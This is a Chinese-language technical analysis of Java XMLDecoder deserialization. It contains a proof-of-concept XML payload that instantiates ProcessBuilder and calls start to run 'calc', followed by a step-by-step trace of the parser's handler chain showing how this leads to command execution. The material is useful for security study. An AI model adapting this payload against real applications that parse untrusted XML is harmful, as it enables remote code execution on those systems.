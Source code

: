 # XMLDecoder反序列化
## 示例代码
```java
package test;
import java.beans.XMLDecoder;
import java.io.IOException;
import java.io.StringBufferInputStream;
class main {

    public static void main(String[] args) throws IOException, InterruptedException {

        String s = "<java version=\"1.7.0_80\" class=\"java.beans.XMLDecoder\">\n" +
                " <object class=\"java.lang.ProcessBuilder\">\n" +
                "  <array class=\"java.lang.String\" length=\"1\">\n" +
                "    <void index=\"0\"><string>calc</string></void>\n" +
                "  </array>\n" +
                "  <void method=\"start\"></void>\n" +
                " </object>\n" +
                "</java>";
        StringBufferInputStream stringBufferInputStream = new StringBufferInputStream(s);
        XMLDecoder xmlDecoder = new XMLDecoder(stringBufferInputStream);
        Object o = xmlDecoder.readObject();
        System.out.println(o);

    }
}
```
## 调用链
在`XMLDocumentFragmentScannerImpl.scanDocument`前主要是初始化xml解析器,然后进入`scanDocument`正式开始处理xml数据,在这之前的调用链如下  
```
scanDocument:462, XMLDocumentFragmentScannerImpl (com.sun.org.apache.xerces.internal.impl)
parse:888, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:824, XML11Configuration (com.sun.org.apache.xerces.internal.parsers)
parse:141, XMLParser (com.sun.org.apache.xerces.internal.parsers)
parse:1216, AbstractSAXParser (com.sun.org.apache.xerces.internal.parsers)
parse:635, SAXParserImpl$JAXPSAXParser (com.sun.org.apache.xerces.internal.jaxp)
parse:324, SAXParserImpl (com.sun.org.apache.xerces.internal.jaxp)
run:377, DocumentHandler$1 (com.sun.beans.decoder)
run:374, DocumentHandler$1 (com.sun.beans.decoder)
doPrivileged:-1, AccessController (java.security)
doIntersectionPrivilege:85, ProtectionDomain$JavaSecurityAccessImpl (java.security)
parse:374, DocumentHandler (com.sun.beans.decoder)
run:201, XMLDecoder$1 (java.beans)
run:199, XMLDecoder$1 (java.beans)
doPrivileged:-1, AccessController (java.security)
parsingComplete:199, XMLDecoder (java.beans)
readObject:250, XMLDecoder (java.beans)
main:19, main (test)
```
### XMLDocumentFragmentScannerImpl.scanDocument
在scanDocument中主要使用Do-While循环来扫描xml各个标签,然后调用next()对不同的节点根据节点名称调用不同的handler来处理,各个handler都存储在一个Hash Map中,在解析到标签的结尾处时,即`SCANNER_STATE_END_ELEMENT_TAG`会进入到scanEndElement()中进行解析.
![1](1.png)  
进入`SCANNER_STATE_END_ELEMENT_TAG`  
![1](9.png)
而对应节点的数据并且通过链表的结构将各个handler连接起来.
类似链表结构
![1](8.png)
即在该POC中的链表结构为`stringHandler->voidHandler->arrayHandler->voidHandler->objectHandler`
在`endElement`方法中调用`this.handler.endElement()`
![1](2.png)
在`endElement()`中则调用了`getValueObject()`来获取对应的值.
![1](3.png)
而在`getValueObject()`中继续调用`getValueObject()`获取值.  
![1](4.png)
![1](5.png)
#### stringHandler
该Handlerz中主要解析了`<string>calc</string>`,在stringHandler中调用`getValueObject()`来将string属性的值赋值给当前handler的sb属性返回.
![1](6.png)
返回后被添加到父节点的参数当中,而父节点为voidHandler.然后将当前handler重置为父节点,即voidHandler.
![1](12.png)
#### 第一个voidHandler
第一个voidhandler主要解析了`<void index="0"><string>calc</string></void>`,然后将handler重置为父节点的arrayhanlder.
![1](13.png)
![1](14.png)
#### ArrayHandler
该Handler主要解析了` <array class="java.lang.String><array>" `,ArrayHandler与StringHandler类似,获取到array标签对应的值后也就是`calc`将其添加到父节点的参数中,然后将当前handler重置为父节点,也就是ObjectHandler.
![1](10.png)
重置为父节点
![1](11.png)
#### 第二个voidHandler
该voidHandler用来解析`<void method="start"></void>`中的`method`属性的start并将其作为参数赋值给父节点Obejct.  
在`getValueObject`中通过getContextBean()获取到一个带有calc参数的ProcessBuilder对象.
在`getContextBean()`的`getValueObject`中,调用了其父节点的`getValueObject()`方法,即OjectHandler的`getValueObject()`方法,在该方法中则直接通过new的方式创建ProcessBuilder对象了返回.
![1](18.png)  
![1](15.png)
在后续的Expression中则将start赋给了的得到Object对象.
![1](16.png)
>public Expression(Object target, String methodName, Object[] arguments)  
按照所给参数创建一个新的Statement对象，使其具有target、  methodName和arguments。 
参数：  
target- 此表达式的 target。  
methodName- 此表达式的 methodName。  
arguments- 此表达式的 arguments。如果该参数为null，则使用一个空数组

最后返回拼接的表达式对象,触发命令执行.
![1](17.png)
# 思路总结
主要原理即在对各个标签的解析当中,可以将取得的object标签值进行对象实例化,并通过链表的方式从其它标签中获取其对象的参数值,最后使用了Expression()方法来调用了对象的指定方法造成了我们可以实例化一个ProcessBuilder对象,并调用其start方法来执行命令.